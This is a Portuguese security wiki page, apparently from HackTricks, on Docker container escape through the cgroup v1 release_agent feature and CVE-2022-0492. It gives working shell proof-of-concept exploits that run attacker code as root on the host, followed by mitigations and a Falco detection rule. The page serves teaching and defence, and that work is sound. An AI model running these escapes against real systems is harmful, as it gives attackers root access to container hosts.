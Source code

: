 # Docker release_agent cgroups escape

{{#include ../../../../banners/hacktricks-training.md}}

**Para mais detalhes, consulte o** [**post original do blog**](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/)**.** Este é apenas um resumo:

---

## PoC Clássica (2019)
```shell
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
A PoC explora o recurso **cgroup-v1** `release_agent`: quando a última tarefa de um cgroup que tem `notify_on_release=1` sai, o kernel (nos **namespaces iniciais no host**) executa o programa cujo caminho está armazenado no arquivo gravável `release_agent`. Como essa execução acontece com **plenos privilégios de root no host**, obter acesso de gravação ao arquivo é suficiente para uma fuga de container.

### Passo a passo curto e legível

1. **Preparar um novo cgroup**

```shell
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp   # ou –o memory
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
```

2. **Apontar `release_agent` para um script controlado pelo atacante no host**

```shell
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

3. **Dropar o payload**

```shell
cat <<'EOF' > /cmd
#!/bin/sh
ps aux > "$host_path/output"
EOF
chmod +x /cmd
```

4. **Acionar o notificador**

```shell
sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"   # adicionar a nós mesmos e sair imediatamente
cat /output                                  # agora contém processos do host
```

---

## Vulnerabilidade do kernel de 2022 – CVE-2022-0492

Em fevereiro de 2022, Yiqi Sun e Kevin Wang descobriram que **o kernel *não* verificava capacidades quando um processo escrevia em `release_agent` no cgroup-v1** (função `cgroup_release_agent_write`).

Efetivamente, **qualquer processo que pudesse montar uma hierarquia de cgroup (por exemplo, via `unshare -UrC`) poderia escrever um caminho arbitrário em `release_agent` sem `CAP_SYS_ADMIN` no *namespace* de usuário *inicial***. Em um container Docker/Kubernetes configurado por padrão e rodando como root, isso permitiu:

* escalonamento de privilégios para root no host; ↗
* fuga de container sem que o container fosse privilegiado.

A falha foi atribuída como **CVE-2022-0492** (CVSS 7.8 / Alto) e corrigida nas seguintes versões do kernel (e todas as posteriores):

* 5.16.2, 5.15.17, 5.10.93, 5.4.176, 4.19.228, 4.14.265, 4.9.299.

Commit do patch: `1e85af15da28 "cgroup: Fix permission checking"`.

### Exploit mínimo dentro de um container
```bash
# prerequisites: container is run as root, no seccomp/AppArmor profile, cgroup-v1 rw inside
apk add --no-cache util-linux  # provides unshare
unshare -UrCm sh -c '
mkdir /tmp/c; mount -t cgroup -o memory none /tmp/c;
echo 1 > /tmp/c/notify_on_release;
echo /proc/self/exe > /tmp/c/release_agent;     # will exec /bin/busybox from host
(sleep 1; echo 0 > /tmp/c/cgroup.procs) &
while true; do sleep 1; done
'
```
Se o kernel for vulnerável, o binário busybox do *host* é executado com acesso total de root.

### Dureza e Mitigações

* **Atualize o kernel** (≥ versões acima). O patch agora requer `CAP_SYS_ADMIN` no *namespace* de usuário *inicial* para escrever em `release_agent`.
* **Prefira cgroup-v2** – a hierarquia unificada **removeu completamente o recurso `release_agent`**, eliminando essa classe de escapes.
* **Desative namespaces de usuário não privilegiados** em hosts que não precisam deles:
```shell
sysctl -w kernel.unprivileged_userns_clone=0
```
* **Controle de acesso obrigatório**: Políticas do AppArmor/SELinux que negam `mount`, `openat` em `/sys/fs/cgroup/**/release_agent`, ou removem `CAP_SYS_ADMIN`, impedem a técnica mesmo em kernels vulneráveis.
* **Bind-mask somente leitura** para todos os arquivos `release_agent` (exemplo de script Palo Alto):
```shell
for f in $(find /sys/fs/cgroup -name release_agent); do
mount --bind -o ro /dev/null "$f"
done
```

## Detecção em tempo de execução

[`Falco`](https://falco.org/) inclui uma regra embutida desde a v0.32:
```yaml
- rule: Detect release_agent File Container Escapes
desc: Detect an attempt to exploit a container escape using release_agent
condition: open_write and container and fd.name endswith release_agent and
(user.uid=0 or thread.cap_effective contains CAP_DAC_OVERRIDE) and
thread.cap_effective contains CAP_SYS_ADMIN
output: "Potential release_agent container escape (file=%fd.name user=%user.name cap=%thread.cap_effective)"
priority: CRITICAL
tags: [container, privilege_escalation]
```
A regra é acionada em qualquer tentativa de escrita em `*/release_agent` de um processo dentro de um contêiner que ainda possui `CAP_SYS_ADMIN`.

## Referências

* [Unit 42 – CVE-2022-0492: container escape via cgroups](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/) – análise detalhada e script de mitigação.
* [Sysdig Falco rule & detection guide](https://sysdig.com/blog/detecting-mitigating-cve-2022-0492-sysdig/)

{{#include ../../../../banners/hacktricks-training.md}}
